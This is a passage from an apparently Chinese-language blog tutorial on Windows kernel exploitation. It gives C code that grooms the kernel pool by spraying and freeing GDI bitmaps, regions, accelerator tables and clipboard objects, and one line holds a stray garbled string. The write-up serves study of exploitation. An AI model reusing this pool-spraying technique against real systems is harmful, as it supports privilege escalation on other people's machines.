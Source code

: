 ```c
		hAccel = CreateAcceleratorTableA(lpAccel, 1);
		hAccel2 = CreateAcceleratorTableW(lpAccel, 1);
		pAccels[i] = hAccel;
		pAccels2[i] = hAccel2;
	}

	// Delete the allocated bitmaps to free space at beginning of pages
	for (int k = 0; k < 5000; k++) {
		DeleteObject(bitmaps[k]);
	}

	//allocate Gh04 5000 region objects of size 0xbc0 which will reuse the free-ed bitmaps memory.
	for (int k = 0; k < 5000; k++) {
		CreateEllipticRgn(0x79, 0x79, 1, 1); //size = 0xbc0
	}

	// Allocate Gh05 5000 bitmaps which would be adjacent to the Gh04 objects previously allocated
	for (int k = 0; k < 5000; k++) {
		bmp = CreateBitmap(0x52, 1, 1, 32, NULL); //size  = 3c0
		bitmaps[k] = bmp;
	}

	// Allocate 1700 clipboard objects of size 0x60 to fill any free memory locations of size 0x60
	for (int k = 0; k < 1700; k++) { //1500
		AllocateClipBoard2(0x30);
	}

	// delete 2000 of the allocated accelerator tables to make holes at the end of the page in our spray.
	for (int k = 2000; k < 4000; k++) {
		DestroyAcceleratorTable(pAccels[k]);
		DestroyAcceleratorTable(pAccels2[k]);
	}
}x3222222222222222
```

要清楚的看到分配/释放的流程，一图胜千言

![]({{site.baseurl}}/images/2018-10-17/animation.gif)

我们一个一个函数来看，第一步是这样的：

```c
	HBITMAP bmp;

	// Allocating 5000 Bitmaps of size 0xf80 leaving 0x80 space at end of page.
	for (int k = 0; k < 5000; k++) {
		bmp = CreateBitmap(1670, 2, 1, 8, NULL); // 1670  = 0xf80 1685 = 0xf90 allocation size 0xfa0
		bitmaps[k] = bmp;
	}
```
